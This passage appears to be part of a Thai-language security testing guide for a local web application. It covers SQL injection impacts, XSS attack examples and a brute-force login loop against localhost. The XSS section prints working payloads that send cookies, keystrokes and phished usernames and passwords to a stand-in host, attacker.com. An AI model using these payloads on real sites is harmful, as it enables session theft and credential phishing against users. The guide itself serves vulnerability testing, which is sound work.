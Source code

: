 #### ผลกระทบ:
- เข้าถึงข้อมูลผู้ใช้ทั้งหมด
- แก้ไขหรือลบข้อมูลในฐานข้อมูล
- ยกระดับสิทธิ์เป็น admin

### 2. Cross-Site Scripting (XSS) (ระดับความเสี่ยง: ปานกลาง-สูง)

#### ตัวอย่างการโจมตี:
```javascript
// 1. การขโมย Cookie:
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>

// 2. การติดตั้ง Keylogger:
<script>
document.addEventListener('keyup', function(e) {
  fetch('https://attacker.com/keys?k='+e.key)
});
</script>

// 3. การปลอมแปลงหน้าเว็บ:
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white">
  <h2>กรุณาเข้าสู่ระบบอีกครั้ง</h2>
  <form onsubmit="fetch('https://attacker.com/steal',{
    method:'POST',
    body:JSON.stringify({
      user:this.username.value,
      pass:this.password.value
    })
  });return false">
    <input name="username">
    <input name="password" type="password">
    <button>เข้าสู่ระบบ</button>
  </form>
</div>
```

### 3. Broken Authentication (ระดับความเสี่ยง: สูง)

#### การโจมตีแบบ Brute Force:
```bash
# ทดสอบรหัสผ่านจากไฟล์ passwords.txt:
while read password; do
  curl -X POST http://localhost:3000/login \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"admin\",\"password\":\"$password\"}"
done < passwords.txt
```

## 🔧 การรันทดสอบอัตโนมัติ

